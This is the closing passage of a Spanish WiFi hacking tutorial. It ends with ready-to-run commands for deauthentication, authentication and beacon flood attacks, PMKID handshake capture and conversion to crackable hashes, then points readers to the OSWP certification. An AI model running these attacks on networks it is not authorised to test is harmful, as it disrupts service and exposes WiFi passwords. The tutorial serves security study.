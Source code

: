> Simple ataque de deautenticación
```sh
aireplay-ng -0 10 -e "nombre-de-la-wifi" -c FF:FF:FF:FF:FF:FF wlan0mon
```

> Simple ataque de autenticación
```sh
mdk4 wlan0mon a -i <bssid> -m
```

> Simple ataque de Beacon Flood
```sh
mdk4 wlan0mon b -c <número-del-canal> -s 2000
```

> Ataque PMKID (obtención de handshakes)
```sh
hcxdumptool -i wlan0mon -o captura –enable_status=1
```

> Convertir PMKID handshakes a formato crackeable
```sh
hcxpcapngtool -o hashes captura
```

> Crea un gráfico a partir de una captura de **airodump-ng**
```sh
airgraph-ng -i captura-01.csv -o grafico.png -g CAPR
```

## Conclusión

Bueno pues esto ha sido todo, espero que hayáis aprendido mucho sobre hacking wifi, los diferentes ataques, funciones extra y demás. También deciros que si queréis certificaros de un examen práctico sobre hacking wifi tenéis el ***OSWP*** de ***OffensiveSecurity***, lo malo de el examen es que hasta donde yo sé, se centran demasiado en el protocolo **WEP**, el cual no se usa casi nada actualmente por lo que estaría bien que se enfocasen más en otros ataques actuales (Además de que es un examen bastante caro). Si tenéis alguna sugerencia o crees que me ha faltado algo por explicar me puedes contactar sin problema.

¡Hasta la próxima!

[Volver arriba](#)



